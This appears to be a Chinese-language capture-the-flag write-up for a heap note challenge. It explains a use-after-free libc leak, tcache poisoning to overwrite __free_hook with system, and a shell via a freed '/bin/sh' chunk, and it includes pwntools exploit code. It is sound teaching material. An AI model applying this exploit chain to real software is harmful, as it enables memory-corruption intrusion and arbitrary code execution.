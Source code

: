 ```cpp
			write_note();
			break;
		case 4:
			delete_note();
			break;
		default:
			puts("Invalid command");
		}
	}
	return 0;
}
```
:::

## Recon
:::warning
Run On Ubuntu 20.04
:::
這一題有很多種方式可以拿到shell，不過原理都是一樣的，前置作業都是一樣的，也就是要利用UAF去leak出libc address，接著算出`__free_hook`以及`system`的位址，接著想辦法把`system`寫到`__free_hook`的位址，此時就有兩種方式可以寫，一種是利用此次學到的double free，把值寫到最後一個在tcache的free chunk，蓋掉他的fd，接著就可以用add_note把tcache的值要回來，並寫system的address進到__free_hook；另一種方式就比較簡單，也就是把free chunk的fd利用UAF的特性改掉，並且直接add_note把東西從tcache要回來，之後就一樣寫system_addr，後free掉一個帶有/bin/sh的chunk，此時就會開一個shell給我們了

### 前置作業: Leak Libc Address
關於這一點可以參考[如何用UAF leak libc address?](https://hackmd.io/@SBK6401/SJWc9v4Bp#%E5%A6%82%E4%BD%95%E7%94%A8UAF-leak-libc-address)，方法都一樣，首先要想辦法讓free chunk進到unsorted bin中(最簡單的方法就是設定超過0x410的空間)，接著因為malloc的時候沒有實作清空原本的資料，導致我們可以leak其中有關libc section的資訊。底下的設定意思是我們先設定三個notes，#14的意思是不要讓#13被free掉的時候被consolidate用的，接著我們把前兩個free掉，結果如下
![image](https://hackmd.io/_uploads/r14opZfL6.png)
會發現#12和#13被consolidate在一起了，接著我們看其中的一些資訊
![image](https://hackmd.io/_uploads/SJwX0-GIT.png)
裡面確實存著libc相關的資訊，接著只要把這一塊chunk malloc出去給隨便一個note，接著讀其中的資料就可以讀出libc address了
```python
add_note(12, 0x420)
add_note(13, 0x420)
add_note(14, 0x420)
del_note(12)
del_note(13)
add_note(12, 0x420)
read_note(12)

leak_libc = u64(r.recv(8))
libc_base = leak_libc - 0x1ed0e0
system_addr = libc_base + libc.symbols['system']
free_hook = libc_base + 0x1eee48
log.success(f'Leak Libc = {hex(leak_libc)}')
log.success(f'Libc Base = {hex(libc_base)}')
log.success(f'System Address = {hex(system_addr)}')
log.success(f'Free Hook = {hex(free_hook)}')
r.recv(0x420 - 0x8)
```
